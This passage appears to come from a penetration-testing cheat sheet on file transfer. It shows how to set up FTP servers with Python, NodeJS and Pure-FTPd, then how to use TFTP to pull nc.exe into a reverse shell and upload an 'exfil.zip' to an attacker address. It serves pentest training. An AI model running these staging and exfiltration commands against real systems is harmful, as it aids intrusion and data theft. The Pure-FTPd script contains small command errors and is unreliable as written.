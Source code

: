 ```
#pip3 install pyftpdlib
#python3 -m pyftpdlib -p 21
```
{% endtab %}

{% tab title="NodeJS" %}
```
sudo npm install -g ftp-srv --save
ftp-srv ftp://0.0.0.0:9876 --root /tmp
```
{% endtab %}

{% tab title="Pure-FTP" %}
```
# sudo apt update && sudo apt install pure-ftpd
```

Config Script

```
#!/bin/bash
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pwd useradd fusr -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```
{% endtab %}
{% endtabs %}

## TFTP

Install the TFTP client

```bash
sudo apt update && sudo apt install atftp
```

Download with TFTP

```bash
# In Kali 
atftpd --daemon --port 69 /tftp

# In reverse shell
tftp -i 10.10.10.10 GET nc.exe
```

Upload with TFTP

```
sudo mkdir /tftp
sudo chown nobody: /tftp
sudo atftpd --daemon --port 69 /tftp
tftp -i 10.11.0.4 put exfil.zip
```

